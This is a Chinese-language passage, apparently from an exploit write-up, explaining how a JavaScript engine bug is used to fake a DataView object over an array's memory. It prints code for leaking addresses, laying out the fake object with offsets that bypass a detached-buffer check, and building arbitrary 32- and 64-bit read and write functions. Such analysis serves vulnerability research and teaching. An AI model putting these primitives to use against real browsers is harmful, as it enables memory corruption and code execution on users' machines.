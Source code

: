 从直观上看，这个函数允许传入一个地址，然后，将结果存放在dv中。dv是什么？与传入的地址有什么关系？
因为我们上面有另外一个漏洞可以泄露出指定对象的地址，这里可以借用一下。

```JavaScript
[hi, lo] = [hi|0, (lo + 0x58)|0];
print_address_64("x_lo_plus_0x58", hi, lo);
TriggerFillFromPrototypesBug(lo, hi);
var [dv_hi, dv_lo] = PutDataAndGetAddr(dv);
print_address_64("address of dv", dv_hi, dv_lo);
```

传入的是x数据区域的地址，TriggerFillFromPrototypesBug执行以后，变量dv就有了值，实测以后会发现：

*dv这个变量的内存地址就是传入的x数据区地址，而在后面使用dv的地方，又将dv当做DataView使用。*

```JavaScript
var dv;
var fdv = new DataView(new ArrayBuffer(8));
...
function SetAddress(addr)
{
    x[14] = addr.low|0;
    x[15] = addr.high|0;
}
function Read32(addr)
{
    SetAddress(addr);
    return new Long(fdv.getUint32.call(dv, 0, true), 0, true);
}
function Read64(addr)
{
    SetAddress(addr);
    return new Long(fdv.getUint32.call(dv, 0, true), fdv.getUint32.call(dv, 4, true), true);
}
function Write32(addr, val)
{
    SetAddress(addr);
    fdv.setUint32.call(dv, 0, val.low|0, true);
}
function Write64(addr, val)
{
    SetAddress(addr);
    fdv.setUint32.call(dv, 0, val.low|0, true);
    fdv.setUint32.call(dv, 4, val.high|0, true);
}

```

所以，x的数据区所对应的那块内存，在这里就成为一个DataView对象的内存布局了。

TriggerFillFromPrototypesBug函数中的这段code：

```JavaScript
// Type* (which has TypeId)
x[2] = lo;
x[3] = hi;
// +0x3C points to 0 (index 1) for bypassing isDetached check
x[10] = (lo - 0x38)|0;
x[11] = hi;
// buffer length
x[8] = 0x200;
// buffer addr
x[14] = (lo - 0x58)|0;
x[15] = hi;
```
